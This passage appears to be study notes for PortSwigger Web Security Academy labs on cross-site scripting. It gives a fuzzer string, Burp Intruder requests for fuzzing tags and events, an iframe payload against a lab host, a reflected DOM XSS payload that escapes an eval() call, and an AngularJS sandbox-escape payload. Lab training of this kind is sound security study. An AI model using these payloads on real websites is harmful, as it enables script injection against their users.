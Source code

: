 [Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)

#### XSS

Fuzzer:
```js
<>\'\"<script>{{7*7}}$(alert(1)}"-prompt(55)-"fuzzer
```

##### Bypassing restrictions on tags and attributes

Use [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) with Intruder.

Fuzz tags:
```html
GET /?search=<§§> HTTP/2
```
Fuzz events:
```html
GET /?search=<body%20§§=print()> HTTP/2
```

[Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

Working payload for this lab:
```html
<iframe src="https://0a94001004ef162c802adf6300cd000b.web-security-academy.net/?search=%3Cbody%20onresize%3Dprint()%3E" onload=this.style.width='500px'>
```

##### Reflected DOM

Indicator:  
In `/resources/js/searchResults.js`, `eval()` is used.

Working payload:
```js
\"-alert(1)}//
```

[Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

##### Angular JS

indicators:
```html
ng-app
angular_VER.js
```

1.6+ payload:
```js
{{constructor.constructor('console.log(window.origin)')()}}
```
